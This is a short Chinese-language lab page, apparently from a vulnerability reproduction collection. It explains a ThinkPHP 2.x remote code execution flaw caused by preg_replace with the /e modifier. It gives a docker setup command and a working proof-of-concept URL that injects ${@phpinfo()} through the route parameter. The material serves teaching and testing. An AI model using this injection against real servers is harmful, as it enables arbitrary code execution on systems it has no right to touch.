

ThinkPHP 2.x 任意代码执行漏洞¶
ThinkPHP是一个在中国被广泛使用的PHP框架。ThinkPHP 2.x版本中存在一个远程代码执行漏洞。
在ThinkPHP 2.x版本中，框架使用preg_replace的/e模式匹配路由：
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
这个实现导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。值得注意的是，ThinkPHP 3.0版本在Lite模式下也存在这个漏洞，因为这个问题在该模式下并未被修复。
环境搭建¶
执行如下命令启动ThinkPHP 2.1的Demo应用：
docker compose up -d
环境启动后，访问http://your-ip:8080/Index/Index即可查看到默认页面。
漏洞复现¶
通过URL参数注入PHP代码来利用此漏洞。直接访问http://your-ip:8080/index.php?s=/index/index/name/${@phpinfo()}，服务器将执行phpinfo()函数，证明远程代码执行漏洞利用成功：
